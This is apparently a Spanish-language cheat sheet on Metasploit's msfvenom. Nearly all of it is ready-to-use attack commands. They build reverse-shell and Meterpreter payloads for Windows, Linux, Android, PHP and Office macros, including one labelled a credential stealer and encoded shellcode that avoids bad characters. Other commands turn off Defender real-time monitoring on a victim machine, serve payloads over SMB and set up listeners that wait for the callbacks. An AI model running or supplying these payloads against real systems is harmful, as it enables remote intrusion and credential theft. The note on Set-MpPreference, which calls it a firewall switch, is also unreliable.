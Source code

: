 # Msfvenom

Msfvenom es una herramienta de Metasploit para crear payloads personalizados que pueden ejecutarse en la máquina víctima.

Para mostrar los payloads disponibles:

```shell
msfvenom -l payloads 
```

## Tipos:
- **Staged**: Envía el código malicioso en múltiples etapas para evitar la detección. A veces no puede usarse directamente con msfvenom, pero sí con Metasploit.

- **Stageless**: Envía todo el código de una vez. Puede ser detectado, pero se puede usar con msfvenom.

Para ver las opciones de un payload específico, usa la opción `-p` seguida de `--list-options`:

```shell
msfvenom -p windows/adduser --list-options
```

Usa la opción `-f` para especificar el formato de salida:

```shell
msfvenom -p windows/adduser -f exe -o adduser.exe
```

Desactiva el Firewall de Windows en la máquina víctima con:

```shell
Set-MpPreference -disableRealtimeMonitoring $true
```

Comparte el archivo usando "impacket-smbserver", compartiendo el directorio actual:

```shell
impacket-smbserver share ./
```

Si la conexión falla, intenta forzar un nombre de usuario y contraseña:

```shell
impacket-smbserver share ./ -smb2support -username test -password test
```

Conéctate desde Windows usando el cuadro de diálogo "Ejecutar":

```shell
\\<ip kali>\share
```

## Shell inverso sin etapas para Windows

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=8001 -f exe -o shellp8001.exe
```

Escucha en Kali con netcat:

```shell
nc -lvnp 8001
```

## Ejemplos adicionales

```shell
# Crear un payload básico
msfvenom -p [payload] LHOST=[IPAtacante] LPORT=[PuertoEscucha]

# Crear un payload codificado
msfvenom -p [payload] -e [encoder] -f [FormatoSalida] -i [iteración] > ArchivoResultante

# Crear un payload usando una plantilla
msfvenom -p [payload] -x [Plantilla] -f [FormatoSalida] > ArchivoResultante

# Escuchar conexiones en Metasploit:
msf6> use exploit/multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost [IP]
msf6> set lport [Puerto]
msf6> set ExitOnSession false
msf6> exploit -j
```

### Ejemplos interesantes 

#### Payload para capturar credenciales en Windows
```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f exe > credstealer.exe
```

#### Payload para Linux con shell inverso
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f elf > shell.elf
```

#### Payload para inyección en macros de Office
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f vba > macro.vba
```

#### Payload para Android
```shell
msfvenom -p android/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] R > appmaliciosa.apk
```

#### Payload para PHP
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.php
```

#### Payload para evitar caracteres problemáticos para buffer overfload
```shell
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f c -e x86/shikata_ga_nai -b "\x00\x0A\x0D"
```